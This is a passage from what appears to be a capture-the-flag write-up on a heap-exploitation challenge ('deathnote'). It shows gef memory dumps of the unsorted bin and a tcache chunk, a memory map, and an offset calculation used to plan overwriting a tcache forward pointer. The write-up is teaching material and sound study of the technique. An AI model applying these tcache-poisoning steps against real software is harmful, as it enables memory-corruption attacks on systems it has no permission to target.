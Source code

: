 And unsorted bin contain a freed chunk:

![unsorted_bin.png](images/unsorted_bin.png)

Check the unsorted bin and we can see this:

```
gef➤  x/50xg 0x1604a20
0x1604a20:  0x0000000000000000  0x0000000000000221
0x1604a30:  0x0000000001604c60  0x00007f2a65850c00    <-- Unsorted bin
0x1604a40:  0x0000000000000000  0x0000000000000000
0x1604a50:  0x0000000000000000  0x0000000000000000
0x1604a60:  0x0000000000000000  0x0000000000000000
0x1604a70:  0x0000000000000000  0x0000000000000000
0x1604a80:  0x0000000000000000  0x0000000000000000
0x1604a90:  0x0000000000000000  0x0000000000000000
0x1604aa0:  0x0000000000000000  0x0000000000000000
0x1604ab0:  0x0000000000000000  0x0000000000000000
0x1604ac0:  0x0000000000000000  0x0000000000000000
0x1604ad0:  0x0000000000000000  0x0000000000000000
0x1604ae0:  0x0000000000000000  0x0000000000000000
0x1604af0:  0x0000000000000000  0x0000000000000000
0x1604b00:  0x0000000000000000  0x0000000000000000
0x1604b10:  0x0000000000000000  0x0000000000000000
0x1604b20:  0x0000000000000000  0x0000000000000000
0x1604b30:  0x0000000000000000  0x0000000000000111
0x1604b40:  0x0000000001605e14  0x0000000001604010    <-- Tcache
0x1604b50:  0x0000000000000000  0x0000000000000000
0x1604b60:  0x0000000000000000  0x0000000000000000
0x1604b70:  0x0000000000000000  0x0000000000000000
0x1604b80:  0x0000000000000000  0x0000000000000000
0x1604b90:  0x0000000000000000  0x0000000000000000
0x1604ba0:  0x0000000000000000  0x0000000000000000
```

The unsorted bin size is 0x210 so that we can malloc a chunk larger than 0x100 to change the forward pointer in tcache chunk. But first, we need to take the offset between heap base address and that tcache chunk address `0x1604b40`:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/dnote_patched
0x0000000001604000 0x0000000001625000 0x0000000000000000 rw- [heap]
0x00007f2a6568a000 0x00007f2a6568c000 0x0000000000000000 rw- 
0x00007f2a6568c000 0x00007f2a656b2000 0x0000000000000000 r-- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
...

gef➤  p/x  0x1604b40- 0x0000000001604000
$1 = 0xb40
```
